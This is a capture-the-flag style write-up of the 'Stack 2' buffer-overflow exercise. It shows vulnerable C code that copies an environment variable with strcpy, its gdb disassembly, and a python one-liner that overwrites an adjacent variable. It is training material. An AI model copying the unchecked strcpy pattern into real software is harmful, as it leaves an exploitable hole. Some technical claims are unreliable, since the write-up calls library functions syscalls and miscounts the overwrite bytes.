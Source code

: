 ```yaml
---
title: Stack 2
sidebar_position: 2
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Stack2 looks at environment variables, and how they can be set.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
This challenge is similar to Stack One except that we are using the environment variable `GREENIE` to pass user input.

The `strcpy` syscall uses the environment variable as it's second argument.
```c
char strcpy(char restrict dst, const char restrict src);
```

As we can see the second argument is the source. So the environment variable `GREENIE` is being copied into the buffer.

Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
```
The instruction at `main+16` calls the `getenv` syscall.
```
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
```
We can set an environment variable using the `export` syscall, and then running the program.
```
$ export GREENIE=abcd
$ env | grep GREENIE
GREENIE=abcd
```

The instruction at `main+84` compares the `modified` variable with `0xd0a0d0a`.
```
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
```
The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x58 - 0x18
$1 = 64
```
## Exploit
The variable is located right where the buffer ends.
Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
```
$ export GREENIE=$(python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"')
$ ./stack2
you have correctly modified the variable
```
- Note that the overwrite value is in little-endian.
